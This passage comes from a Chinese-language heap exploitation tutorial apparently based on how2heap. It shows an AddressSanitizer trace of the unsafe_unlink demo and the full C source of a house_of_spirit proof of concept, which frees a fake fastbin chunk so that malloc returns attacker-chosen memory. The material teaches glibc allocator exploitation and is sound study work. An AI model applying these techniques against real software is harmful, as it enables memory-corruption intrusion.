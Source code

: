 现在 libc-2.26 版本下也成功利用了。tcache 是个很有趣的东西，更详细的内容我们会在专门的章节里去讲。

加上内存检测参数重新编译，可以看到 heap-buffer-overflow：
```
$ gcc -fsanitize=address -g unsafe_unlink.c 
$ ./a.out 
The global chunk0_ptr is at 0x602230, pointing to 0x60c00000bf80
The victim chunk we are going to corrupt is at 0x60c00000bec0

Fake chunk fd: 0x602218
Fake chunk bk: 0x602220

=================================================================
==5591==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60c00000beb0 at pc 0x000000400d74 bp 0x7ffd06423730 sp 0x7ffd06423720
WRITE of size 8 at 0x60c00000beb0 thread T0
    #0 0x400d73 in main /home/firmy/how2heap/unsafe_unlink.c:26
    #1 0x7fc925d8282f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #2 0x400968 in _start (/home/firmy/how2heap/a.out+0x400968)

0x60c00000beb0 is located 16 bytes to the left of 128-byte region [0x60c00000bec0,0x60c00000bf40)
allocated by thread T0 here:
    #0 0x7fc9261c4602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)
    #1 0x400b12 in main /home/firmy/how2heap/unsafe_unlink.c:13
    #2 0x7fc925d8282f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
```

#### house_of_spirit
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    malloc(1);

    fprintf(stderr, "We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.\n");
    unsigned long long *a, *b;
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "The first one:  %p\n", &fake_chunks[0]);
    fprintf(stderr, "The second one: %p\n", &fake_chunks[4]);

    fake_chunks[1] = 0x20; // the size
    fake_chunks[5] = 0x1234; // nextsize

    fake_chunks[2] = 0x4141414141414141LL;
    fake_chunks[6] = 0x4141414141414141LL;

    fprintf(stderr, "Overwritting our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[0]);
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[0], &fake_chunks[2]);
    b = malloc(0x10);
    fprintf(stderr, "malloc(0x10): %p\n", b);
    b[0] = 0x4242424242424242LL;
}
```
```
$ gcc -g house_of_spirit.c 
```